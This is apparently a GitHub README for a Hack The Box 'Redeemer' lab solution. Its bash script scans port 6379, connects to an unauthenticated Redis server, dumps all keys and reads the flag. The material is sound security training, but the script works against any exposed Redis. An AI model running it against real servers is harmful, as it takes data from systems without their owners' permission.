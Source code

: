 # HTB “Redeemer” Redis Exploit

**Description**  
Exploit a misconfigured Redis server on Hack The Box’s “Redeemer” box to retrieve the flag.

## Quick Start

```
git clone https://github.com/keyfive5/obsidiansignal-htb-redeemer.git
cd obsidiansignal-htb-redeemer
bash scripts/enum-redis.sh 10.129.136.194
```


## Contents
- [Write‑Up](writeup/lab-writeup.md)
- [Screenshots](screenshots/)
- [Automation Script](scripts/enum-smb.sh)

## Results

**scripts/enum-redis.sh**  
```
#!/usr/bin/env bash
# Usage: ./enum-redis.sh <TARGET_IP>

TARGET=$1

echo "[*] Nmap scan for Redis..."
nmap -p 6379 -sV $TARGET -oN nmap-6379.txt

echo "[*] Enumerating Redis info..."
redis-cli -h $TARGET info | tee screenshots/redis-info.txt

echo "[*] Dumping keys..."
redis-cli -h $TARGET --raw keys '*' | tee screenshots/keys.txt

echo "[*] Retrieving flag..."
FLAG=$(redis-cli -h $TARGET get flag)
echo "[*] Flag: $FLAG"
```
